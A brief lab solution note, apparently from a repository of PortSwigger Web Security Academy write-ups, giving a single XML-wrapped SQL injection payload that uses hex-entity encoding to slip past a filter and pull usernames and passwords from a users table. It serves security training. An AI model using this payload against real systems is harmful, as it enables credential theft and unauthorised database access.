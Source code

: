 # Lab

https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding

## Payload

```xml
<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>
```